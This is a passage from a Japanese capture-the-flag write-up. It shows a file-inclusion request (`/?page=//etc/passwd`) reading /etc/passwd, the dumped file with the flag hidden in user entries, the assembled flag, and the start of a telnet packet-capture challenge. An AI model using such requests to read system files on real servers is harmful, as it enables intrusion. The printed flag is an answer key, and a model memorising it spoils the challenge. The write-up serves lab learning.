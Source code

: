 `/?page=//etc/passwd&type=a` にアクセスするとフラグが得られました。

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
DCTF{7569fd:x:1001:1001::/home/DCTF{7569fd:
4bf5b7ded2f:x:1002:1002::/home/4bf5b7ded2f:
c48b33a7972:x:1003:1003::/home/c48b33a7972:
c0752d13db4:x:1004:1004::/home/c0752d13db4:
32ff9930a99:x:1005:1005::/home/32ff9930a99:
6c567ea3321:x:1006:1006::/home/6c567ea3321:
13b}:x:1007:1007::/home/13b}:
```

```
DCTF{7569fd4bf5b7ded2fc48b33a7972c0752d13db432ff9930a996c567ea332113b}
```

## [Junior 2] HitandSplit

`splitandhit.pcapng` という PcapNg 形式のファイルが与えられました。

Wireshark で開いてみると、以下のような telnet の通信が複数記録されていました。

```
Welcome to the obfusctaion server. Type something and will obfuscate it!.

8
tryharder!
3
tryharder!
6
tryharder!
0
tryharder!
7
tryharder!
5
tryharder!
9
tryharder!
8
tryharder!
2
tryharder!
```
